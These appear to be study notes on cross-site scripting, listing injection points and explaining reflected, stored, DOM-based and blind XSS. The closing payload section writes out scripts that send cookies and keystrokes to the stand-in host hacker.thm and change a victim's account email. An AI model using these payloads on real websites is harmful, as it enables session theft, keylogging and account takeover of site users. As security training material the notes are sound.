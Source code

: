 # Cross Site Scripting(XSS)

Attack Vectors

- Customizable Themes & Profiles via CSS
- Event or meeting names
- URI based
- Imported from a 3rd party (think Facebook integration)
- JSON POST Values (check returning content type)
- File Upload names
- Uploaded files (swf, HTML, ++)
- Custom Error pages
- fake params - ?realparam=1&foo=bar’+alert(/XSS/)+’
- Login and Forgot password forms
<a/>

<!-- -->
				Reflected XSS
##### supplied data in an HTTP request is included in the webpage source without any validation.

Examples:
- Parameters in the URL Query String
- URL File Path
- Sometimes HTTP Headers

<!-- -->

				Stored XSS				
##### The payload is stored on the web application and then gets run when other users visit the site or web page.
Examples:
- Comments on a blog
- User profile information
-  Nicknames in a chatroom  
- Website Listings
<!-- -->

				Dom Based XSS		
##### Contains some client-side JavaScript that processes data from an untrusted source in an unsafe way, usually by writing the data back to the DOM.

-- Crafted links could be sent to potential victims, redirecting them to another website or steal content from the page or the user's session.
				
			



					Blind XSS				
##### your payload gets stored on the website for another user to view, but you can't see the payload working or be able to test it against yourself first.

-- xsshunter

				Basic Payloads
-- Session Stealing
`<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>`

-- Key logger 
`<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>`

-- Business Logic(so you can change their Password)
`<script>user.changeEmail('attacker@hacker.thm');</script>`

-- Beef Framework

[XSS Filter Evasion](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html)